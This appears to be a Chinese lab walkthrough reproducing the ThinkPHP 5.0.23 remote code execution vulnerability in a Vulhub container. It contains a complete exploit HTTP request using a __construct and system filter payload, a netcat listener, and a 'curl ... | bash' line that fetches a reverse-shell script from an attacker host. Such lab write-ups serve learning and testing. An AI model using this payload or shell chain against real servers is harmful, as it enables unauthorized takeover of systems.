 #### 漏洞复现

```php
cd vulhub-master/thinkphp/5.0.23-rcesudo docker-compose up -d 
```

![image-20210517092443132](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ca3928accfce86a3a0316ea8f8c2eaa304079af3.png)

访问一下靶机

![image-20210517092510037](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-81efc5e8e26271c4ff86837697e3ad9c3e67ea10.png)

#### 漏洞验证

进行抓包

进行转换

![image-20210517092901244](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9fbf30ed9a1e61cb083f5ba36c4512f845bed467.png)

![image-20210517092957870](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ecf47cfc7d63c404ddb3dca98c2054e290e7e192.png)

这里给出完整的数据包

```php
POST /index.php?s=captcha HTTP/1.1Host: 192.168.175.209:8080User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0Accept: text/html,application/xhtml+x ml,application/x ml;q=0.9,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeUpgrade-Insecure-Requests: 1Pragma: no-cacheCache-Control: no-cacheContent-Type: application/x-www-form-urlencodedContent-Length: 72_method=__construct&amp;filter[]=system&amp;method=get&amp;server[REQUEST_METHOD]=id
```

#### 反弹shell

把反弹shell 写到shell.sh中

![image-20210517093330723](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4a8e0e0f27d4eb014b41c472e3a71f7087775274.png)

python开启http服务

```php
python -m SimpleHTTPServer 9999
```

nc开启监听

```php
nc -vlp 8888
```

进行执行

```php
curl 192.168.175.130:9999/shell.sh | bash
```

![image-20210517093509746](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ef863161e07f77a67d1e503254ef0ae453a56f8b.png)
